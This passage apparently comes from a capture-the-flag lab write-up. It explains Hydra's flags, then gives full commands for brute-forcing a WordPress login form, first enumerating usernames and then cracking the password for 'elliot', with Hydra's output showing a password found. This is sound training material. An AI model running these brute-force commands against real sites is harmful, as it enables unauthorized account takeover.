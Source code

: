 You might remember for Hydra that:

<fieldset>
<legend>Hydra Arguments</legend>
<dl>
<dt><code>-L</code></dt>
<dd>Use a wordlist for the username (e.g. <code>hydra -L ./wordlist.txt ...</code>).</dd>
<dt><code>-l</code></dt>
<dd>Use a single, specific username (e.g. <code>hydra -l jdoe ...</code>).</dd>
<dt><code>-P</code></dt>
<dd>Use a wordlist for the password (e.g. <code>hydra -P ./wordlist.txt ...</code>).</dd>
<dt><code>-p</code></dt>
<dd>Use a single, specific password (e.g. <code>hydra -p password ...</code>)</dd>
</dl>
</fieldset>

#### Hydra for usernames

Keeping that in mind, we want to first use a **fixed password** and our **wordlist for potential usernames**:

```bash
hydra -L ./new.txt -p test \
    $TARGET http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -I 2>&1 | tee $ROOM/hydra-usernames.log
```

#### Hydra for passwords

From this effort, we see the username "Elliot" in various casing, so it's probably case-insenstive. Now, let's flip it around, use **"elliot" for a username** and the **wordlist for the password**:

```bash
hydra -l elliot -P ./new.txt \     
    $TARGET http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -I 2>&1 | tee $ROOM/hydra-passwords.log
```

It took about :15 minutes but we were able to get the password:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-12 23:14:38
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-form://10.10.83.180:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered
[STATUS] 1745.00 tries/min, 1745 tries in 00:01h, 9707 to do in 00:06h, 30 active
[STATUS] 1136.67 tries/min, 3410 tries in 00:03h, 8042 to do in 00:08h, 30 active
[STATUS] 845.00 tries/min, 5915 tries in 00:07h, 5537 to do in 00:07h, 30 active
[STATUS] 723.67 tries/min, 8684 tries in 00:12h, 2768 to do in 00:04h, 30 active
[80][http-post-form] host: 10.10.83.180   login: elliot   password: *********
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-12 23:31:30
```
